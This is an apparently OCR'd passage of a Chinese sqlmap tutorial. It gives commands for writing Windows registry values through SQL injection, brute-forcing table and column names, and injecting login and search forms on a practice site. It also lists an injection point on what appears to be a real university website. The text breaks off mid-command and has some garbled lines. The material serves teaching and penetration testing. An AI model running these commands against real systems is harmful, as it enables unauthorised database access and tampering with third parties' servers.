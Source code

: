 读取注册表值
参数：--reg-read

写入注册表值
参数：--reg-add

删除注册表值
参数：--reg-del

注册表辅助选项
参数：--reg-key,--reg-value,--reg-data,--reg-type

需要配合之前的三个参数使用，例子：
$python sqlmap.py -u http://192.168.136.129/sqlmap/pgsql/get_int.aspx?id=1 --reg-add --reg-key="HKEY-LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1

# 暴力破解表名

参数：--common-tables
当使用--tables无法获取到数据库的表时，可以使用此参数
通常是如下情况：
1. MySQL数据库版本小于5.0，没有information_schema表
2. 数据库是Microssoft Access,系统表MSysObjects是不可读的（默认）
3. 当前用户没有权限读取系统中保存数据结构的表的权限
暴力破解的表在txt/common-tables.txt文件中，你可以自己添加

Xx --common-tables -D testdb

# 暴力破解列名

参数： --common-columns
与暴力破解表名一样，暴力破解列名在txt/common-columns.txt种
Xx --common-columns -T text -D testdb

# POST登录框注入

注入点：http://testasp.vulnweb.com/Login.asp
几种注入方式：./sqlmap.py -r search-test.txt -p tfUPass

sqlmap -u http://testasp.vulnweb.com/Login.asp --forms
sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"

# 搜索框注入

sqlmap.py -r search-test.txt

# 伪静态注入

注入点：http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html
sqlmap -u 
